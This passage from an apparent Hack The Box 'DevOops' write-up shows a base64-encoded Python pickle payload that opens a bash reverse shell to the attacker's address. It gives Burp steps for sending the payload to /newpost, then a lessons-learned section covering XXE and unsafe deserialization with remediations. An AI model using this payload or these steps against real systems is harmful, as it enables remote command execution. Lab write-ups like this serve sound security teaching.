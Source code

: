 Run the exploit.

```text
root@kali:~/Desktop/htb/devoops# python pickle-payload.py Y3Bvc2l4CnN5c3RlbQpwMQooUyJiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjEyLzEyMzQgMD4mMSciCnAyCnRScDMKLg==
```

We need to insert the above base64 encoded string into the the POST request to _/newpost_. To do that, intercept the request to the index page, send it to Repeater, right click and select the option _Change Request Method_. Then add the path _/newpost_, change the _Content-Type_ to ‘_text_’ and include the base64 string our exploit generated.

![](../images/max/684/1*fzgGDGKGFJ5kWrMWoFqNsw.png)

Send the request and we get a shell!

![](../images/max/961/1*xxEZEEfhAIHMBSxnjED-uw.png)

## Lessons Learned <a id="fdf1"></a>

To gain an initial foothold on the box we exploited two vulnerabilities.

1. XML External Entity \(XXE\) injection that allowed us to enumerate users on the box and obtain the SSH private key of the user _roosa_. Remediations for this vulnerability include input validation and properly configuring XML parsers to disable the resolution of external entities.
2. Lack of input validation that allowed us to run arbitrary commands on the system. The application was taking in untrusted user input and unpacking it using the pickle python deserialization library. Since the input was not properly validated, we generated a string of malicious input that sent a reverse shell back to our attack machine. Remediations for this vulnerability include input validation and using secure libraries that have built in input validation checks.
